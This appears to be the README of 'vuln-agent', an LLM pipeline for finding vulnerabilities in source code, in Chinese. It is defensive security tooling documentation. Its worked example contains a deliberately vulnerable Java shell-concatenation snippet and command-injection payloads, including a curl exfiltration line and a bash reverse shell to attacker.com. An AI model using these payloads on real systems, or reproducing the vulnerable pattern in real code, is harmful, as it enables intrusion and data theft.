







# vuln-agent

基于 LLM 的多阶段源码漏洞挖掘管道：从源码发现攻击面、追踪业务流、识别潜在漏洞并对抗式复核。

---

## 要解决的问题

传统纯规则静态扫描（SAST）在真实业务中遇到三大瓶颈：

| 痛点 | 表现 |
|------|------|
| **高误报** | 规则只看模式匹配，不看业务上下文；参数已被正则校验、白名单过滤的"安全 sink"仍被报为漏洞 |
| **缺业务理解** | 规则不知道一段代码在业务里干什么，无法判断"这个外部参数是否真的能控制到危险操作" |
| **规则僵化** | 新型漏洞、业务特有逻辑无法被预设规则覆盖；全量加载规则又会稀释注意力、拖慢分析 |

vuln-agent 的解法：**让 LLM 先理解业务流、再带着结构化上下文做漏洞判定，最后用独立挑战者复核**。规则不再被全量硬套，而是按场景动态加载；判定结论必须经得起反向质疑。

---

## 整体架构



三条架构主线：

1. **子进程式 LLM 调用，无 SDK 耦合**——每次 LLM 交互都 spawn 一个独立子进程，运行在完全隔离的临时环境里（系统级插件/skills/历史会话全部禁用）。一次调用失败或污染不会波及其它任务，也意味着任意兼容的 LLM 后端可替换接入。
2. **产物即检查点**——每个阶段把结构化产物持久化到目标目录下；已完成的阶段不会重复执行，中断后重跑自动从首个未完成阶段续上。
3. **编排与执行分离**——编排器只负责任务调度与并发，真正的"思考"全部外包给隔离的 LLM 子进程，编排器本身不持有任何模型状态。

---

## 四阶段管道总览



| 阶段 | 做什么 | 不做什么 | 产物形态 |
|------|--------|----------|----------|
| 暴露面采集 | 找出所有外部可达入口 | 不深入分析逻辑 | 每个入口一条记录 |
| 业务流分析 | 追踪参数流向、标注关键控制点 | **不下任何漏洞结论** | 请求表+调用链+控制点+流程图 |
| 漏洞分析 | 基于业务流+匹配规则判定 | 不重复采集、不臆造上下文 | VULN/NOVULN/SUSPECTED 结论 |
| 漏洞复核 | 挑战结论、验证防护 | 不替分析阶段背书 | 复核后结论 |

---

## 核心设计：分析与判断分离 ★

这是 vuln-agent 最关键的设计决策。传统做法把"这段代码有什么风险"当成一个一次性问题丢给模型，模型往往既要读代码、又要猜业务、又要套规则，注意力分散、容易漏判或乱判。

vuln-agent 把它**拆成两个职责清晰、先后衔接的阶段**：



**为什么这样能让漏洞分析更准确？**

- **上下文前置固化**：业务流阶段已把"参数从哪来、经过谁、落到哪、有无校验"这些事实写定，漏洞分析阶段不再需要边读代码边猜业务，直接基于**已经确定的事实**做判断，减少幻觉。
- **职责单一、降低认知负荷**：业务流分析只管"如实陈述"，不被"这是不是漏洞"带偏，能更完整地还原数据流；漏洞分析只管"对照规则判定"，不必分心去重建调用链。每一步都更专注、更彻底。
- **观察项是显式契约**：业务流阶段输出"重要观察项"作为下游输入——这些是安全视角下的可疑信号（如"参数未校验透传到命令拼接"）。漏洞分析拿到的是**结构化、可逐条核对的清单**，而非一段散文，判定更可追溯、可复核。
- **可分别重跑**：两层产物各自持久化，发现判定不准时可只重做漏洞分析而不必重做业务流，迭代成本更低。

一句话：**让"理解"和"判定"各司其职，判定建立在被固化的事实之上，而非临场推断。**

---

## ① 暴露面采集

> 只做入口识别，不做深入分析。

扫描代码仓库，识别所有**外部可达的入口点**，分两类：

| 类别 | 说明 | 典型成员 |
|------|------|----------|
| **iface（接口型）** | 跨网络/跨进程可达的入口 | REST 接口、MQ 消费者、gRPC、WebSocket |
| **noniface（非接口型）** | 本地/调度触发的入口 | 独立脚本工具、定时任务、CLI 命令 |

每个条目记录入口类型、精确位置、URL、参数等关键信息，作为后续阶段的输入单元。采集遵循两条原则：

- **只收集，不评判**——这一阶段不判断入口是否危险，只确保入口被完整、准确地找到。
- **以入口为粒度切片**——下游分析以"每个入口"为单位独立展开，天然支持并发与按需重做。

---

## ② 业务流分析

> 陈述事实，不下安全结论。

对每个入口点分析其业务逻辑：接收什么参数、经过哪些处理环节、最终操作什么数据。同时从安全视角标注关键控制点。产出是包含**四件套**的结构化报告：

### 请求表
| 维度 | 详情 |
|------|------|
| path | `/ping` |
| query | `host`（默认 `8.8.8.8`，无校验） |
| header | 无关 |
| body | 无 |

### 调用链
入参 `host` 经多层传递直达命令执行：

```
入口控制器.ping(host)
  -> 服务层.ping(host)
    -> 命令执行器.execute(host)
      -> 脚本执行器.run(host)   ← 命令拼接 + shell 执行
```

### 关键控制点
```java
String cmd = scriptPath + " " + host;
Process process = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
```

### 流程图


### 重要观察项（输出给漏洞分析）
- `host` 参数无任何校验注解，全程透传
- 参数最终拼入 shell 命令字符串
- 通过 `/bin/sh -c` 执行，shell 元字符会被解释
- 调用链各层均为纯透传，无过滤或转义

> 这些观察项就是业务流分析交给漏洞分析的"线索清单"——漏洞分析据此逐条核对，而非自行重新读代码猜业务。

---

## ③ 漏洞分析 + 动态规则加载 ★

> 基于业务流观察项，按匹配的场景动态加载规则，逐项比对并给出举证。

### 哨兵模式规则机制

vuln-agent 不预先把所有规则塞进 prompt，而是采用**哨兵模式**：



规则库按漏洞类型分文件存放，索引只列出"模式 -> 规则"的映射，**不含完整规则内容**。三条铁律：

1. **按需加载**——只有当代码特征匹配某条模式时，才加载对应规则文件做深入分析。
2. **禁止全量加载**——一次性塞入所有规则会稀释 LLM 注意力、显著增加 token 消耗、还可能诱导强行套规则。哨兵模式确保每次分析只带"真正相关"的规则。
3. **禁止加载不匹配的规则**——避免无关规则干扰判定。

### 判定逻辑

漏洞分析拿到的是业务流阶段固化的**观察项清单**，它做的是"对账"：

- 对每条观察项，对照匹配到的规则要求，确认是否满足漏洞触发条件
- 无论结论是真漏洞、无漏洞还是疑似，都**必须给出详细分析过程和举证信息**（调用链、代码事实、触发条件）
- 结论三态：`VULN`（确认）、`NOVULN`（排除）、`SUSPECTED`（存疑需人工）

---

## ④ 对抗式漏洞复核 ★

> 以挑战者姿态复核漏洞结论，专攻误报。

漏洞分析判定后，独立的复核阶段以**反向质疑**的视角重新审视，重点检查漏洞分析是否遗漏了防护措施或业务约束。

### 推翻误报示例

漏洞分析判定：参数 `id` 拼入 `SELECT * FROM users WHERE id = ${id}`，存在 SQL 注入。



复核阶段的典型质疑方向：

| 质疑维度 | 复核会找什么 |
|----------|--------------|
| 参数校验 | 是否有正则/白名单/类型约束已阻断 payload |
| 调用链防护 | 中间层是否做了转义、编码、截断 |
| 权限边界 | 该入口是否实际对外可达、是否需鉴权 |
| 触发可达性 | 漏洞路径上的条件分支是否真能走通 |

复核结论同样三态，且**不替分析阶段背书**——即使分析说"有漏洞"，复核可推翻为 NOVULN，反之亦然。这种对抗结构把"发现"与"证伪"分离，显著压低误报。

---

## 工程机制：可断点续跑 + 风险优先并发

### 可断点续跑

每个阶段的产物持久化到目标目录下，**产物即检查点**：

- 已完成阶段不重复执行——重跑自动从首个未完成阶段续上
- 单个阶段可强制覆盖重做（如发现某入口分析不准，只重做该入口的下游）
- 中断信号会标记中断、让在飞子任务跑完但不启动新阶段，确保产物一致

### 双线程池 + 风险优先调度



- **两个独立线程池**：一个负责发现与分析，一个专司漏洞分析与复核；互不挤占。
- **风险优先**：每个入口分析+规划一完成，**立即提交其高危漏洞分析**，不等其它入口。高危先行意味着最严重的问题最早暴露。
- **medium/low 延后**：所有高危处理完，才进入 medium、low 级别，避免低优先级任务抢占资源。
- **每个任务一个子进程**：高并发 = 多个隔离 LLM 进程并行，互不污染。

---

## Prompt 知识库系统

vuln-agent 的分析质量很大程度来自注入 LLM 的**知识库**，而非裸 prompt：

| 机制 | 作用 |
|------|------|
| **安全占位符替换** | 模板用 `{key}` 占位，遇到未知占位不报错，安全跳过；避免模板与变量不匹配时崩溃 |
| **嵌套 include** | 模板里可用 `{include:文件名}` 把知识库片段按需注入，支持多层嵌套、按名去重 |
| **原则库** | 内置多份原则约束：分析原则、复核原则、误报规则、风险分级模式、surface 格式规范等，按阶段注入对应原则 |
| **规则库** | 按漏洞类型分文件的安全规则，即上文哨兵模式按需加载的对象 |

知识库与代码解耦：改原则、加规则不必动管道代码，注入即生效。

---

## 端到端示例：命令注入（上）—— 业务流分析

> 全程以一个 REST 接口 `/ping` 为例，串联四阶段。本页及后续不涉及任何源文件名。

### 请求表
| 维度 | 详情 |
|------|------|
| path | `/ping` |
| query | `host`（默认 `8.8.8.8`，无校验） |
| header | 无关 |
| body | 无 |

### 调用链树
入参 `host` 经四层传递直达 shell 执行：

```
入口控制器.ping(host)        接收参数，无校验注解
  -> 服务层.ping(host)       纯透传
    -> 命令执行器.execute(host)  纯透传
      -> 脚本执行器.run(host)   命令拼接 + shell 执行
```

### 关键控制点（代码事实）
```java
String cmd = scriptPath + " " + host;
Process process = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
```

### 重要观察项（→ 交给漏洞分析）
- `host` 无任何校验，四层调用链纯透传
- 参数直接拼入命令字符串，未转义
- 通过 `/bin/sh -c` 执行，shell 元字符（`;`、`` ` ``、`$()`、`|`、`||`）均会被解释

> 注意：业务流分析到此为止，**没有下任何"这是命令注入漏洞"的结论**，只固化事实与观察项。

---

## 端到端示例：命令注入（中）—— 漏洞分析

> 基于上页观察项，规则匹配命中"执行命令参数可控"，加载命令注入规则逐项比对。

### 触发条件
向 `GET /ping?host=<payload>` 发送请求，`host` 直接拼入 shell 命令执行。

### Payload（举证）
- 基础探测：`GET /ping?host=;id;`
- 任意命令执行：`GET /ping?host=8.8.8.8;cat+/etc/passwd`
- 命令替换：`GET /ping?host=127.0.0.1$(whoami)`
- OR 短路注入：`GET /ping?host=8.8.8.8||curl+http://attacker.com/$(whoami)`
- 反向 shell（URL 编码）：`GET /ping?host=;bash+-i+>%26/dev/tcp/attacker.com/4444+0>%261`

### 攻击步骤
1. 确认目标存在 `/ping` 端点
2. 发送 `GET /ping?host=;id;`，若响应含 `uid=...` 则确认命令注入
3. 按利用目标构造 payload：文件读取、反弹 shell、植入后门

### 事实依据
- 入口接收 `host`，无任何校验注解
- 命令字符串直接拼接，用户输入未转义、未过滤
- 经 `/bin/sh -c` 执行，shell 元字符全部生效
- 调用链四层均为纯透传，无过滤或转换

### 结论
`VULN` · CVSS 9.8 · 严重

### 修复建议
1. 严格校验 `host` 格式：仅允许合法 IP 或受信域名白名单，拒绝所有 shell 元字符
2. 用参数列表形式传参，避免通过 `-c` 把用户输入交给 shell 解释器
3. 脚本中变量加双引号：`"$1"`
4. 最小权限运行应用进程，限制提权效果

---

## 端到端示例：命令注入（下）—— 漏洞复核

> 挑战者重新审视上面的 VULN 结论，质疑其利用路径是否真的成立。

### 复核质疑
| 质疑维度 | 复核检查 | 结果 |
|----------|----------|------|
| 参数校验 | `host` 是否有正则/白名单？ | 无——确认未校验 |
| 调用链防护 | 中间层是否转义、截断？ | 无——四层纯透传 |
| 触发可达性 | shell 元字符是否真能生效？ | 是——`/bin/sh -c` 全解释 |
| 权限边界 | 接口是否对外可达？ | 是——REST 接口无鉴权 |

### 复核结论
所有质疑方向均无法推翻原结论——`host` 确实可达 shell 执行且无防护。

**最终结论：`VULN` 维持，命令注入成立。**

> 对照第 ④ 页 SQL 注入被推翻的例子：复核的职责不是"一律推翻"，而是"该立的立、该翻的翻"。本例立得住；SQL 注入例因有正则校验而立不住。这种**双向**质疑才是降低误报与漏报的关键。

---

## 设计亮点总结

| 亮点 | 价值 |
|------|------|
| **分析与判断分离** | 业务流分析只固化事实、输出观察项，漏洞分析基于结构化事实精确判定——判定建立在确定事实而非临场推断上，更准更可追溯 |
| **动态规则加载（哨兵模式）** | 按代码特征按需加载规则，禁止全量硬套，注意力集中、token 节省、不诱导强套规则 |
| **对抗式漏洞复核** | 独立挑战者双向质疑，该立的立、该翻的翻，显著压低误报与漏报 |
| **子进程式隔离调用** | 每次 LLM 交互一个隔离临时环境，无 SDK 耦合，后端可替换、故障不扩散 |
| **可断点续跑 + 风险优先并发** | 产物即检查点，中断续跑零成本；双线程池+高危先行，最严重问题最早暴露 |
| **知识库驱动** | 原则库与规则库与代码解耦，改原则加规则无需动管道，注入即生效 |

**一句话**：vuln-agent 让 LLM 先把业务流"读懂写定"，再带着结构化事实去"按场景判定"，最后让独立挑战者"反向证伪"——理解、判定、证伪三权分立，把漏洞分析从"一次性猜测"变成"可追溯、可复核、可续跑"的工程化流程。
